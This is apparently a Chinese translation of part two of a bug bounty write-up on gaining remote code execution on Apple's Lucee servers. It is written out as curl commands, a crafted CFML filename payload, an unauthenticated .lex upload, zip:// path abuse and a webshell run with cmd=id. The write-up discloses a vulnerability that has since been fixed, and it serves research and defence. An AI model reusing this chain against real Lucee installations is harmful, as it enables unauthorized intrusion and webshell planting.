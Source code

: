 > 原文链接: https://www.anquanke.com//post/id/231406 


# 我是如何入侵Apple并拿到40万赏金的（二）


                                阅读量   
                                **161435**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t01f3b0479ceab44bb1.jpg)](https://p3.ssl.qhimg.com/t01f3b0479ceab44bb1.jpg)



上一篇文章中讲述了我是如何从0开始针对Apple的资产进行网站探测、CMS识别、代码审计、失败的入侵过程再到WAF绕过的分析，本篇承接上篇，讲述RCE利链的完整过程。



## facilities.apple.com上的远程代码执行

让我们先来看一下在 [https://facilities.apple.com](https://facilities.apple.com) 上利用 `imgProcess.cfm`和`admin.search.index.cfm`触发的RCE链。

目前我们已经控制了一个目录，既可以向其中复制文件（`dataDir`参数），也可以指定一个目录来从其中复制文件过去（`luceeArchiveZipPath`参数）。

此时如果可以在服务器上的某处创建一个名称为:

```
server.&lt;cffile action=write file=#Url['f']# output=#Url['content']#&gt;.cfm
```

内容为:

```
"#stText.x.f#"
```

的文件，则可以通过`luceeArchiveZipPath`将其路径传递给`admin.search.index.cfm`。

由于以下key:

```
server.&lt;cffile action=write file=#Url['f']# output=#Url['content']#&gt;.cfm
```

并不存在，那么将创建它并将其写入名为`searchindex.cfm`的文件中。

这意味着我们可以在使用`dataDir`参数来指定的任意目录中的`searchindex.cfm`文件中控制CFML标签（类似于PHP标签），这同时也意味着我们可以使用webroot路径在服务器上执行远程代码，达到RCE！

我们可以利用 `imgProcess.cfm` 在目标文件系统上创建一个文件：

```
server.&lt;cffile action=write file=#Url['f']# output=#Url['content']#&gt;.cfm
```

其内容与RegExp相匹配：

```
[''"##]stText\..+?[''"##]
```

这次攻击测试并不会触发WAF，因为我们在这里没有进行路径遍历。

### <a class="reference-link" name="%E8%8E%B7%E5%BE%97shell%E7%9A%84%E5%AE%8C%E6%95%B4%E5%88%A9%E7%94%A8%E9%93%BE%E6%AD%A5%E9%AA%A4"></a>获得shell的完整利用链步骤
- 首先创建一个文件名为`server.&lt;cffile action=write file=#Url['f']# output=#Url['content']#&gt;.cfm`，内容为 `"#stText.x.f#"`的文件（以匹配正则表达式），并将文件名进行URL编码，因为后端（tomcat）不支持某些字符
```
curl -X POST 'https://facilities.apple.com/lucee/admin/imgProcess.cfm?file=%2F%73%65%72%76%65%72%2e%3c%63%66%66%69%6c%65%20%61%63%74%69%6f%6e%3d%77%72%69%74%65%20%66%69%6c%65%3d%23%55%72%6c%5b%27%66%27%5d%23%20%6f%75%74%70%75%74%3d%23%55%72%6c%5b%27%63%6f%6e%74%65%6e%74%27%5d%23%3e%2e%63%66%6d' --data 'imgSrc="#stText.Buttons.save#"'
```
- 访问触发复制文件名函数以准备将要执行的代码
```
curl 'http://facilities.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/context/rootxharsh/&amp;LUCEEARCHIVEZIPPATH=/full/path/lucee/temp/admin-ext-thumbnails/__/'
```
- 写shell最终触发代码执行
```
curl https://facilities.apple.com/lucee/rootxharsh/searchindex.cfm?f=PoC.cfm&amp;content=cfm_shell
```
<li>访问 webshell： `https://facilities.apple.com/lucee/rootxharsh/PoC.cfm`[![](https://p3.ssl.qhimg.com/t01a9e286d397544500.jpg)](https://p3.ssl.qhimg.com/t01a9e286d397544500.jpg)
</li>
这次攻击测试并不会触发WAF，因为我们在这里没有进行路径遍历。



## 另辟蹊径，其他主机的沦陷

由于`imgProcess.cfm`在较早的Lucee版本中不可用，因此我们必须找到其他方法才能在另外两台主机上获得RCE。我们发现了另一种巧妙的方法;）。

### <a class="reference-link" name="%E7%BB%95%E8%BF%87%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%EF%BC%8C%E4%B8%8A%E4%BC%A0.lex%E6%96%87%E4%BB%B6"></a>绕过身份验证，上传.lex文件

经过审计发现，`ext.applications.upload.cfm` 文件的部分功能代码没有严格的身份验证。该代码段非常简单，我们只需要通过`extfile`表单传递带有文件扩展名`.lex`的form参数，如果不这么做，前面已经解释过，我们将会收到后端返回的异常。

```
&lt;cfif not structKeyExists(form, "extfile") or form.extfile eq ""&gt;
    ...
&lt;/cfif&gt;
&lt;!--- try to upload (.zip and .re) ---&gt;
&lt;cftry&gt;
    &lt;cffile action="upload" filefield="extfile" destination="#GetTempDirectory()#"
    nameconflict="makeunique" /&gt;
    &lt;cfif cffile.serverfileext neq "lex"&gt;
        &lt;cfthrow message="Only .lex is allowed as extension!" /&gt;
    &lt;/cfif&gt;
    &lt;cfcatch&gt;
        ...
    &lt;/cfcatch&gt;
&lt;/cftry&gt;
&lt;cfset zipfile="#rereplace(cffile.serverdirectory, '[/\\]$', '')##server.separator.file##cffile.serverfile#"
/&gt;
```

针对`.lex`扩展名的处理，我们可以看到这段代码：

```
&lt;cfif cffile.serverfileext eq "lex"&gt;
    ... 
    type="#request.adminType#" 
    ...
&lt;/cfif&gt;
```

因为我们没有`request.admintype`，所以会触发异常。但是，但是，但是！！我们构造的恶意文件仍在触发之前就已经上传成功了，可以在这里确认：

[![](https://p2.ssl.qhimg.com/t0159bc01a8589a5540.jpg)](https://p2.ssl.qhimg.com/t0159bc01a8589a5540.jpg)

`.lex`文件不过是一种压缩文件格式，这实际上是Lucee的一种扩展名的格式，我们可以上传，并且后端不会针对其检查文件内容，因此我们可以将该文件设置为任何我们想要的内容。

### <a class="reference-link" name="Exploit%20%E4%B9%8B%E5%85%89"></a>Exploit 之光

通过对Lucee的审计和测试发掘 ，我们已经知道它允许使用诸如 `zip://`，`file:///`等协议（我们刚好在此利用链中使用了这些协议），因此我们可以在系统中文件功能完全受到控制的地方利用这些被允许的协议来做一些我们想要的东西（`luceeArchiveZipPath`）。

现在，我们可以利用 `ext.applications.upload.cfm` 来创建`.lex`压缩文件，其中将包含一个名称为：

```
server.&lt;cffile action=write file=#Url['f']# output=#Url['content']#&gt;.cfm
```

内容为：

```
"#stText.x.f#"
```

的文件。一旦我们将该zip格式的压缩文件保存在系统上，就可以在`luceeArchiveZipPath`变量中使用`zip://`协议来访问 `*.*.cfm`文件。

### <a class="reference-link" name="%E8%8E%B7%E5%8F%96%E5%8F%A6%E5%A4%96%E4%B8%A4%E5%8F%B0%E4%B8%BB%E6%9C%BA%E7%9A%84shell"></a>获取另外两台主机的shell
<li>1、创建一个文件名为`server.&lt;cffile action=write file=#Url['f']# output=#Url['content']#&gt;.cfm` ，内容为`"#stText.x.f#"` 的文件，并将其压缩为`payload.lex`
</li>
[![](https://p0.ssl.qhimg.com/t01c1d9be29aaccb55c.jpg)](https://p0.ssl.qhimg.com/t01c1d9be29aaccb55c.jpg)
- 2、利用未授权的上传点`ext.applications.upload.cfm`上传该 `.lex` 文件
```
curl -vv -F extfile=@payload.lex https://booktravel.apple.com/lucee/admin/ext.applications.upload.cfm
```
- 3、利用 `zip://` 协议触发
```
curl https://booktravel.apple.com/lucee/admin/admin.search.index.cfm?dataDir=/full/path/lucee/web/context/exploit/&amp;luceeArchiveZipPath=zip:///full/path/lucee/web/temp/payload.lex
```
<li>4、现在，我们的恶意文件<br>`server.&lt;cffile action=write file=#Url['f']# output=#Url['content']#&gt;.cfm`<br>
已作为文本字符串添加到了 `/&lt;lucee web&gt;/context/exploit/` 目录下的 `searchindex.cfm`文件里，<br>
我们可以通过以下方式访问它：
<pre><code class="hljs ruby">https://booktravel.apple.com/&lt;lucee root&gt;/exploit/searchindex.cfm
</code></pre>
5、 向 `https://booktravel.apple.com/lucee/exploit/searchindex.cfm?f=test.cfm&amp;output=cfml_shell` 发出请求将创建我们的 webshell
</li>
<li>创建成功，访问 webshell，并执行 id 命令：`https://booktravel.apple.com/lucee/exploit/test.cfm?cmd=id`
</li>
[![](https://p0.ssl.qhimg.com/t012171153e760916d4.jpg)](https://p0.ssl.qhimg.com/t012171153e760916d4.jpg)

由于有负载平衡，所以我们此处需要使用burp的Intruder功能来发现我们的shell命令执行结果。



## 获得赏金，收工回家

Apple方面迅速解决了该问题，但要求我们在他们修复之前不要披露此漏洞。对于这些漏洞，总共给了我们50,000+美元的奖励。

另一方面，我们和Apple、Lucee的团队进行了交流。Lucee团队通过限制直接访问cfm文件来修复该错误。目前我们仍在等待CVE的分配下发。
